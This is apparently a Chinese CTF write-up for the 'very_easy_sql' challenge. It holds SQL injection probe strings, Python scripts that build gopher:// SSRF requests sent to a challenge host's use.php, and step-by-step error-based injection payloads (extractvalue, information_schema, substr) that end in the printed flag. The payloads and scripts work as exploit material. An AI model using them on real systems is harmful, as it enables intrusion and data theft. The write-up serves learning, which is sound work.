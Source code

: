 # WEB-攻防世界very_easy_sql
- 关键词 sql注入、ssrf漏洞攻击
## 1.题目描述
首先进去就看到一个登录页
![3fd6c630a568ba7d433a346b35cb8c37.png](../_resources/3fd6c630a568ba7d433a346b35cb8c37.png)
尝试了常见的sql注入，发现没有可以注入的端点
附 常见sql探测
```shell
#判断如下闭合方式是否会报错，会报错则肯定存在注入
=test'                         
=test"                         
#若不报错则判断是否存在布尔盲注，如果页面会有不同的显示在可能存在漏洞
=test' and -1=-1 or '
=test' and -1=-2 or '  
         
=test" and -1=-1 or "
=test" and -1=-2 or "
```

页面上的提示you are not an inner user, so we can not let you have identify~很奇怪（后来才知道这种提示是在暗示有ssrf的漏洞了）。
毫无思路，查看源码（划掉，wp）。源码里发现注释里写了use.php
![f9628807f231abe4bfe35bc36e173bb3.png](../_resources/f9628807f231abe4bfe35bc36e173bb3.png)
尝试直接访问use.php，得到如下页面
![75007da7cb98f85034a1e27fa2293e3d.png](../_resources/75007da7cb98f85034a1e27fa2293e3d.png)
这时候有经验的师傅其实更加可以确定是ssrf漏洞了
但我没经验，所以只能看wp了
## ssrf详解
### 什么是ssrf
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
我理解的是相当于内网穿透，你获取到其中一个内网主机，可以用这个内网主机作为服务器向其他的内网机器发起攻击。SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。
### ssrf的利用
- 分享，通过URL地址分享网页内容，通过URL获取目标页标签等内容
- 转码服务，适应硬件设备的大小；
- 图片的加载与下载
- 图片，文章的收藏；
### 产生SSRF漏洞的函数
- `file_get_contents`
- `fsockopen()`
### ssrf漏洞利用
1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
2. 攻击运行在内网或本地的应用程序（比如溢出）;
3. 对内网web应用进行指纹识别，通过访问默认文件实现;
4. 攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;
5. 利用file协议读取本地文件等。.
6. 各个协议调用探针：http,file,dict,ftp,gopher等

本题目就是运用第六种，gopher协议。
### gopher协议
```python
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

test =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)
//按照标准，URL只允许一部分ASCII字符，其他字符（如汉字）是不符合标准的，此时就要进行编码。
因为我在构造URL的过程中要使用到中文：此时需要用到urllib.parse.quote，此处是为了替换特殊字符\
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new)
print("gopher://"+host+"/_"+result)
```

用post把这串url发送到http://61.147.171.105:49851/use.php?url=去。
可以看到返回了一个setcockie
![ebe368198641327553581542ed3cdf52.png](../_resources/ebe368198641327553581542ed3cdf52.png)
其中的YWRtaW4%3D经过url解码和base64解码之后，结果为admin
尝试cookie注入

## 解题思路
编写脚本
```python
import urllib.parse
import base64
import requests

host = "127.0.0.1:80"
payload = "admin'"
base64_payload = str(base64.b64encode(payload.encode("utf-8")), "utf-8")
cookie="this_is_your_cookie=" + base64_payload

test =\
"""GET /index.php HTTP/1.1
Host: {}
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie:{}

""".format(host,cookie)

tmp = urllib.parse.quote(test) 
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new) 
gopher = "gopher://"+host+"/_"+result

print(gopher)


url = 'http://61.147.171.105:49851/use.php?url=' + gopher
res = requests.get(url)
print(res.text)
```

![709a03d2f84b25d87ff5133046451760.png](../_resources/709a03d2f84b25d87ff5133046451760.png)

经过多次尝试发现注入点为`admin') #` ，即可以尝试报错注入

## 注入步骤
1. 查数据库，payload为 `admin') and extractvalue(1, concat(0x7e, (select database()),0x7e)) #` 得到结果为
![82f32883e9f806f1f74bc0a1b18b46b2.png](../_resources/82f32883e9f806f1f74bc0a1b18b46b2.png)

2. 查表，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='security'),0x7e)) #` 结果为：
![0395781c0b398cbeedfac91d461d9289.png](../_resources/0395781c0b398cbeedfac91d461d9289.png)

3. 因为上一步得到了flag表，因此查flag表中的字段，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flag'),0x7e)) #` 结果为：![153e9ebb795932f2da08db0b1ab32840.png](../_resources/153e9ebb795932f2da08db0b1ab32840.png)
   
4. 查内容，由于只有flag一个字段，payload为`admin') and extractvalue(1, concat(0x7e, (SELECT flag from flag),0x7e)) #` ，结果为![a15fc33cb5e87f15dbc6abb2e9f4c593.png](../_resources/a15fc33cb5e87f15dbc6abb2e9f4c593.png)
   
5. 此时出现了另一个问题，报错的回显最大位数为31位，此时我们只获得前了31位（数一下就行），需要用substr函数进行分割读取后面的位数：`admin') and extractvalue(1, concat(0x7e, substr((SELECT flag from flag),32),0x7e)) #` （意思是从第32位开始截取）结果为：![868925aa8842fa2aa4676c1ed82b2219.png](../_resources/868925aa8842fa2aa4676c1ed82b2219.png)
   
6. 将两次的结果合并即可
`cyberpeace{812b25eedd2520a4beeef2bca1ce7832}`